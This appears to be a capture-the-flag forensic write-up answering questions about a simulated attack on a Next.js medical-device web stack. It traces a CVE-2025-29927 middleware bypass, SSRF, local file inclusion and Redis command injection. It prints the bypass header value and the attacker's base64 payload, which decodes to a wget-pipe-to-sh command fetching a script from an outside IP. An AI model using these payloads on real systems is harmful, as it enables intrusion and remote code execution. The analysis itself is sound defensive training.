










# NeuroSync-D


## Sherlock Scenario

NeuroSync™ is a leading suite of products focusing on developing cutting edge medical BCI devices, designed by the Korosaki Coorporaton. Recently, an APT group targeted them and was able to infiltrate their infrastructure and is now moving laterally to compromise more systems. It appears that they have even managed to hijack a large number of online devices by exploiting an N-day vulnerability. Your task is to find out how they were able to compromise the infrastructure and understand how to secure it.

## Given artifact

Five logs file from a web server:

- `access.log`: shows the raw HTTP requests as they hit the entry point of the server (likely an Nginx or Apache reverse proxy sitting in front of the Node app)
- `interface.log`: the stdout/stderr console output of the Next.js web application itself
- `data-api.log`: belongs to a separate, internal Node.js service (> node .) running on port 4000
- `redis.log`: captures the raw commands being executed against a Redis instance
- `bci-device.log`: simulates the output of the actual Brain-Computer Interface device.

## Questions

### 1. What version of Next.js is the application using?

Have a look at `interface.log`, it contains several application-level logging:



It starts with the initialization of the Next.js development server, then shows Webpack compilation times for various pages and routes

Node.js frameworks (like Next.js) are very "chatty" when they start up in development mode. They proudly print their version, environment variables, and the ports they are binding to straight to the console (stdout).

**Answer: 15.1.0**

### 2. What local port is the Next.js-based application running on?

Can be seen in previous snapshot

**Answer: 3000**

### 3. A critical Next.js vulnerability was released in March 2025, and this version appears to be affected. What is the CVE identifier for this vulnerability?

Quick Google search for `Next.js 15.1.0 vulnerability` yields this result:



Next.js uses "Middleware"—a script that runs before a request reaches the API. It is usually used to check if a user is logged in (returning the 401 if they aren't). CVE-2025-29927 allows an attacker to completely bypass this middleware by sending a specific, maliciously crafted header (`x-middleware-subrequest`)

**Answer: CVE-2025-29927**

### 4. The attacker tried to enumerate some static files that are typically available in the Next.js framework, most likely to retrieve its version. What is the first file he could get?

Attackers rarely know exactly where the vulnerability is right away. They have to run reconnaissance. In web forensics, we look for a high volume of 404 Not Found errors from a single IP. This indicates directory brute-forcing or probing. We want to find the exact moment the attacker strikes gold (transitions from 404 Not Found to 200 OK or 401 Unauthorized).

For this node.js context: Next.js uses Webpack to bundle all its React code into "chunks" stored in `/_next/static/chunks/`. Attackers know this. If they can download these JavaScript files, they can reverse-engineer the frontend application to find hidden API routes.

Checking `access.log`, this is the first successful request:



**Answer: main-app.js**

### 5. Then the attacker appears to have found an endpoint that is potentially affected by the previously identified vulnerability. What is that endpoint?

When they hit main-app.js and get a 200 OK, they have successfully downloaded the frontend code. By reading that code, they discover a hidden endpoint: `/api/bci/analytics`. When they test it, they get a 401 Unauthorized. To a forensic analyst, a 401 is a beacon: it tells the attacker "there is sensitive data here, you just need to break the lock."

**Answer: /api/bci/analytics**

### 6. How many requests to this endpoint have resulted in an "Unauthorized" response?

Just count it

**Answer: 5**

### 7. When is a successful response received from the vulnerable endpoint, meaning that the middleware has been bypassed?

Still in the `access.log` snapshot, after 5 fail attempts, finally a 200 OK response shows up

**Answer: 2025-04-01 11:38:05**

### 8. Given the previous failed requests, what will most likely be the final value for the vulnerable header used to exploit the vulnerability and bypass the middleware?

I think we should actually understand the logical flaw in this CVE...

#### The Purpose of x-middleware-subrequest

To understand the exploit, we first have to understand why this header exists at all. When a user makes a request to a Next.js app, the routing engine might need to route that request through multiple layers internally (like rewrites or redirects). If a piece of middleware triggers a rewrite to another path, Next.js needs to make sure it doesn't accidentally create an infinite loop (where the middleware keeps intercepting its own rewritten requests forever).

To track this, Next.js uses an internal, undocumented header called `x-middleware-subrequest`. Every time a request passes through a middleware loop, Next.js appends the name of the middleware to this header (separated by colons :).

#### The Vulnerable Code
Here is the exact piece of code from the Next.js source (specifically sandbox.ts) that caused the issue in Next.js version 15.1.0:

```javascript
    // 1. Get the header from the incoming HTTP request
    const subreq = params.request.headers['x-middleware-subrequest']

    // 2. Split the header into an array using the colon ':'
    const subrequests = typeof subreq === 'string' ? subreq.split(':') : []

    // 3. Set the maximum allowed loops
    const MAX_RECURSION_DEPTH = 5

    // 4. Count how many times the current middleware name appears in the array
    const depth = subrequests.reduce(
        (acc, curr) => (curr === params.name ? acc + 1 : acc),
        0
    )

    // 5. If we hit the limit, STOP executing middleware and just let the request through!
    if (depth >= MAX_RECURSION_DEPTH) {
        return {
            waitUntil: Promise.resolve(),
            response: new runtime.context.Response(null, {
                headers: {
                    'x-middleware-next': '1', // This tells Next.js to skip to the destination
                },
            }),
        }
    }
```

#### The Logic Flaw (How it's abused)

  The fatal flaw in this code is trust. The developers assumed that `x-middleware-subrequest` would only ever be set
  internally by the Next.js engine itself. They did not sanitize or block this header if it came directly from the
  user's browser.

  If you are an attacker, you want to access the `/api/bci/analytics` endpoint, but the middleware is checking if you
  are logged in and returning a 401 Unauthorized if you aren't.

  You want to trigger that if (`depth >= MAX_RECURSION_DEPTH`) block so the server just lets you through.
  Here is the step-by-step abuse:

  1. The Goal: Make depth equal to or greater than 5.
  2. The Mechanism: The depth variable is calculated by counting how many times the params.name (which defaults to
  the string "middleware" in Next.js) appears in the subrequests array.
  3. The Array: The subrequests array is created simply by splitting the x-middleware-subrequest header by colons (:).
  4. The Attack: If the attacker manually sends a request with this header:
  x-middleware-subrequest: `middleware:middleware:middleware:middleware:middleware`
  5. The Result:
      • The code splits it: ['middleware', 'middleware', 'middleware', 'middleware', 'middleware']
      • It counts them: depth becomes 5.
      • The if (depth >= 5) check passes.
      • Next.js says: "Oh wow, we've looped 5 times! We must be stuck. I'm going to abort the middleware and just
      forward the request directly to the destination API route to prevent a crash."

Back to our `interface.log`:



**Answer: x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware**

### 9. The attacker chained the vulnerability with an SSRF attack, which allowed them to perform an internal port scan and discover an internal API. On which port is the API accessible?

The attacker has bypassed the front door. What do they do next? A standard tactic is `Server-Side Request Forgery (SSRF)`—forcing the compromised web server to scan its own internal, local network to find services that aren't exposed to the internet.

It is best practice in modern web architecture to have a user-facing Node app (like Next.js) communicate with hidden, internal backend Node microservices (like `data-api`).

Looking at `data-api.log`, we see the internal API is running on port 4000:



**Answer: 4000**

### 10. After the port scan, the attacker starts a brute-force attack to find some vulnerable endpoints in the previously identified API. Which vulnerable endpoint was found?

Scroll down in `data-api.log`:



**Answer: /logs**

### 11. When the vulnerable endpoint found was used maliciously for the first time?

In the previous snapshot, we see the API has a parameter somewhere to identify the file being read, he attacker somehow manipulates it and abuses Local File Inclusion:



**Answer: 2025-04-01 11:39:01**

### 12. What is the attack name the endpoint is vulnerable to?

Nothing more to say

**Answer: Local File Inclusion**

## 13. What is the name of the file that was targeted the last time the vulnerable endpoint was exploited?



**Answer: secret.key**

### 14. Finally, the attacker uses the sensitive information obtained earlier to create a special command that allows them to perform Redis injection and gain RCE on the system. What is the command string?

#### What is Redis doing here?

Redis is an extremely fast, in-memory database. While it can be used to just store data, in this application, it is being used as a Message Queue (or Message Broker).

Think of it like a conveyor belt:

1. The internal backend (data-api.log) creates commands (like MOVE_UP) and puts them onto the conveyor belt. In
  Redis terminology, it uses the RPUSH (Right Push) command to add an item to the end of a list called bci_commands.
2. The physical edge devices (bci-device.log) are sitting at the other end of the conveyor belt. They use the BLPOP
  (Block Left Pop) command. This tells Redis: "Wait here until something appears on the list, grab it, and remove it
  from the list."
  The attacker realizes that if they can somehow push their own items onto this conveyor belt, the edge devices will
  blindly pick them up and execute them.

Look at `redis.log`, we see they successfully push their command into Redis database:



**Answer: OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb**

### 15. Once decoded, what is the command?

Looking at the `bci-device.log`, we see the decoded command and its output. Hilariously, a stripped Linux version in those embedded system is often minimal, thus the result is just: wget is not available:



**Answer: `wget http://185.202.2.147/h4Pln4/run.sh -O- | sh`**

